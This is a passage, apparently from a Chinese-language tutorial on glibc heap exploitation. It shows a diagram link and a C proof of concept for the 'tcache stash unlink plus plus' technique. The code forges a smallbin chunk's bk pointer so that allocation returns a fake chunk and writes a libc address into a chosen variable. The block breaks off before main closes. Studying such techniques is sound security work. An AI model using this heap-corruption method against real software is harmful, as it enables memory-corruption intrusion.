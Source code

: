 ### 图解

![tcache_stash_plus_plus](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/tcache_stash_plus_plus.png)

### POC

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <assert.h>


int main(){
    size_t fake_chunk[4] = {0,}; // 最终申请这个fake_chunk
    size_t gap[0x50]; // 隔开两个变量
    size_t secret = 0; // 同时修改这个变量为libc地址
    printf("Before attack, we allocate a fakechunk of addr 0x%lx, and a secret value which is %ld.\n", (unsigned long)&fake_chunk[0], (long)secret);

    size_t* chunks[0x10];

    // 这7个chunk待会放到tcache
    for(int i = 0; i<7; i++){
        chunks[i] = malloc(0x100);
    }

    //这5个待会放到unsortedbin，因此同时malloc(0x20)防止合并
    for(int i = 0; i<5; i++){
        chunks[7+i] = malloc(0x100);
        malloc(0x10);
    }

    // 释放刚刚申请的所有大小为0x100的chunk，会有7个位于tcache，5个位于unsortedbin
    for(int i = 0 ; i<12; i++){
        free(chunks[i]);
    }

    // 从tcache中申请5个走，只保留2个
    for(int i = 0 ; i<5; i++){
        malloc(0x100);
    }

    // 通过malloc(0x200)来将所有unsortedbin的chunk放到smallbin
    malloc(0x200);

    /* vuln start */

    // 修改指定chunk的bk为要申请的地址减去0x10
    chunks[11][1] = (size_t)&fake_chunk[0] - 0x10;

    // 要申请的fake chunk的bk指向要写libc地址处的地址减去0x10
    fake_chunk[1] = (size_t)&secret - 0x10;

    /* vuln ends */

    // calloc触发攻击
    calloc(1, 0x100);
    size_t* final_chunk = malloc(0x100);

    printf("After calloc, we malloc again and get the chunk of address 0x%lx, which is the fake chunk.\n", (unsigned long)final_chunk);
    printf("The value of secret is 0x%lx now.\n", (unsigned long)secret);
```